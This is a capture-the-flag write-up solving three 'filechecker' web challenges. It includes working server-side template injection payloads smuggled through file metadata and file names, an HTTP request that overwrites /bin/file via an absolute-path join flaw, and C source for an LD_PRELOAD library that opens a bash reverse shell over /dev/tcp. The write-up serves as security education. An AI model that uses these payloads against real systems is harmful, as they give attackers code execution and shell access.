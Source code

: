 ## filechecker_mini

- solved: 88/363
- flag: `RCTF{Just_A_5mall_Tr1ck_mini1i1i1__Fl4g_Y0u_gOtt777!!!}`

The server runs the file command on the uploaded file and passes the output to Flask's render_template_string. So we can do template injection as long as we control the output.

### The easiest solution

https://github.com/file/file/blob/master/tests/cmd1.testfile

https://github.com/file/file/blob/master/tests/cmd1.result

The content of the build file is as follows

```
#!/usr/cmd/{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

Upload this file and you will get the flag

### Other interesting solutions

1 modify the interpreter of linux executables

```bash
cp /bin/file filetest
patchelf --set-interpreter "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}" filetest
curl -F 'file-upload=@/mnt/d/Desktop/filetest' http://159.138.107.47:13001/
```

You can also modify the BuildID of the linux executable

2 gzip controls a file name file

```bash
touch "{{config.__class__.__init__.__globals__['os'].popen('cat \x2fflag').read()}}"
gzip \{\{config.__class__.__init__.__globals__\[\'os\'\].popen\(\'cat\ \\x2fflag\'\).read\(\)\}\}
mv \{\{config.__class__.__init__.__globals__\[\'os\'\].popen\(\'cat\ \\x2fflag\'\).read\(\)\}\}.gz 1.gz
curl -F 'file-upload=@/mnt/d/Desktop/1.gz' http://159.138.107.47:13001/
```

3 Modifying the image copyright will also take effect

There are many ways to control the command output, so I won’t go into details here

## filechecker_plus

- solved: 39/363
- flag: `RCTF{III_W4nt_Gir1Friendssssss_Thi5_Christm4ssss~~~~}`

To diff the two zips, I found out that template injection is no longer possible and the web service is running with root privileges.

```python
os.path.exists(filepath) and ".." in filepath:
```

The check for path traversal and existing file is an and. That means we can overwrite files if we don’t use '..' .

To disable directory traversal for "..", I added this logic. This is a logic error, I should replace and with or.  qwq

A small trick for os.path.join. When your filename starts with `/`, it will ignore the first parameter

```python
>>> import os
>>> os.path.join("/app/upload/","test")
'/app/upload/test'
>>> os.path.join("/app/upload/","/tmp/test")
'/tmp/test'
```

Now we can overwrite any file, so it is very easy to solve this challenge.

Send the following http package and you will get the flag

```
POST / HTTP/1.1
Host: 159.138.110.192:23002
Content-Length: 211
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Origin: http://159.138.110.192:23002
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuhKRbyDeYPB8r5MS
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://159.138.110.192:23002/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryuhKRbyDeYPB8r5MS
Content-Disposition: form-data; name="file-upload"; filename="/bin/file"
Content-Type: text/plain

#!/bin/bash
cat /flag
------WebKitFormBoundaryuhKRbyDeYPB8r5MS--
```

Of course you can also upload a linux executable file or overwrite index.html to get the flag.    :)

## filechecker_pro_max

- solved: 17/363
- flag: `RCTF{I_Giveeeeeee_Y0oOu_Fl4gsssss_You_G1ve_M3_GirlFriendsssssssssss}`

This time, we can’t overwrite any files. We have to get RCE only by creating new ones.

Use strace to trace what happens when the file command is executed

```bash
strace file /etc/passwd 2>&1 | grep "No such file or directory"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/lib/locale/C.UTF-8/LC_CTYPE", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
newfstatat(AT_FDCWD, "/home/liao/.magic.mgc", 0x7ffd2bb0bcd0, 0) = -1 ENOENT (No such file or directory)
newfstatat(AT_FDCWD, "/home/liao/.magic", 0x7ffd2bb0bcd0, 0) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/magic.mgc", O_RDONLY) = -1 ENOENT (No such file or directory)
```

We can create a "/etc/ld.so.preload" file that includes "/app/upload/mylseek.so" so that the library is loaded when the server executes the `file` command.

**mylseek.c**

```c
#include <unistd.h>
#include "syscall.h"
#include <stdio.h>
#include <stdlib.h>

off_t lseek(int fd, off_t offset, int whence)
{
    remove("/etc/ld.so.preload"); //without this, the exploit would recursively load mylseek.so
    system("bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'");
#ifdef SYS__llseek
    off_t result;
    return syscall(SYS__llseek, fd, offset>>32, offset, &result, whence) ? -1 : result;
#else
    return syscall(SYS_lseek, fd, offset, whence);
#endif
}
```

gcc mylseek.c -o mylseek.so --shared -fPIC

Of course you can diy your so.     :)

**ld.so.preload**

```
/app/upload/mylseek.so
```

We then just need a race condition when both of the files are present when file is executed.

Use burpsuite's intruder module to upload these two files in multiple threads for a race condition.

mylseek.so -> /app/upload/mylseek.so

ld.so.preload -> /etc/ld.so.preload